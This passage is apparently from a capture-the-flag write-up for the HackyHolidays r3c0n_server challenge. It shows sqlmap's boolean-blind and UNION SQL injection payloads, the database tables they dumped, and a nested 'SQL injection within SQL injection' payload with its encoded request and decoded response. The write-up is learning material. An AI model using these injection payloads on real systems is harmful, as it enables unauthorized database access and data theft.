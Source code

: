 ```
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: hash=jdh34k' AND 6610=6610 AND 'Fhnh'='Fhnh

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: hash=-2048' UNION ALL SELECT NULL,NULL,CONCAT(0x7178707a71,0x75596543734d797a5042444f5869494d5858675873624c52677a554a654f507072446f5078754469,0x7162627171)-- -
---
[11:09:20] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL 8
[11:09:20] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] recon

Database: recon
Table: album
[3 entries]
+----+--------+-----------+
| id | hash   | name      |
+----+--------+-----------+
| 1  | 3dir42 | Xmas 2018 |
| 2  | 59grop | Xmas 2019 |
| 3  | jdh34k | Xmas 2020 |
+----+--------+-----------+

Database: recon
Table: photo
[6 entries]
+----+----------+--------------------------------------+
| id | album_id | photo                                |
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```
The requests to this database might look something like this: 
```SQL
select photo from album, photo where album.id = photo.album_id and hash = <input>
```
From the sqlmap output, we already know a payload: `chron0x' UNION ALL SELECT NULL,NULL,"chron0x"-- -`. This will print `chron0x` on a page. At that time a lot of people including me were stuck and in the forum, several hints regarding the movie "Inception" were dropped. It turned out that these referred to an SQL injection in the SQL injection. Following these hints and with a bit of tinkering, we can find another SQL injection in the SQL Injection.
```
chron0x' UNION ALL SELECT "chron0x' UNION ALL SELECT NULL,NULL,'chron0x_path'-- -",null,null -- -
```
Using this payload, the response to `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=hash=chron0x%27%20UNION%20ALL%20SELECT%20%22chron0x%27%20UNION%20ALL%20SELECT%20NULL,NULL,%27chron0x_path%27--%20-%22,null,null%20--%20-`, will try to fetch an image with the following: `https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL2Nocm9uMHhfcGF0aCIsImF1dGgiOiJmOTNjMzI5MjI5OTU0ZWQzOWRmYTRhMzkwMTNmNjljNSJ9`. Decoding the base64 payload, we can see that `chron0x_path` is reflected 
```
{"image":"r3c0n_server_4fdk59\/uploads\/chron0x_path","auth":"f93c329229954ed39dfa4a39013f69c5"}
```
The response of the request to fetch this image is `Expected HTTP status 200, Received: 404`. Now that we found the inception SQLi, lets write a small script to explore what we just did manually a bit more.